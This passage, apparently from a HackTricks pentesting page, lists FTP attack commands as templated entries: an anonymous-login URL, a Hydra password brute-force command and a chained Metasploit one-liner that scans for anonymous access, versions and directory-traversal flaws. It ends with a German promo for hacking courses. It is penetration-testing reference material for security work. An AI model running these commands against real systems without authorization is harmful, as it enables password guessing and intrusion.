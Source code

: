```
Entry_5:
Name: Browser Connection
Description: Connect with Browser
Note: ftp://anonymous:anonymous@{IP}

Entry_6:
Name: Hydra Brute Force
Description: Need Username
Command: hydra -t 1 -l {Username} -P {Big_Passwordlist} -vV {IP} ftp

Entry_7:
Name: consolesless mfs enumeration ftp
Description: FTP enumeration without the need to run msfconsole
Note: sourced from https://github.com/carlospolop/legion
Command: msfconsole -q -x 'use auxiliary/scanner/ftp/anonymous; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/ftp_version; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/bison_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' && msfconsole -q -x 'use auxiliary/scanner/ftp/colorado_ftp_traversal; set RHOSTS {IP}; set RPORT 21; run; exit' &&  msfconsole -q -x 'use auxiliary/scanner/ftp/titanftp_xcrc_traversal; set RHOSTS {IP}; set RPORT 21; run; exit'
```
{% hint style="success" %}
Lerne & übe AWS Hacking:<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../.gitbook/assets/arte.png" alt="" data-size="line">\
Lerne & übe GCP Hacking: <img src="../../.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details><summary>Unterstütze HackTricks</summary></details>
{% endhint %}
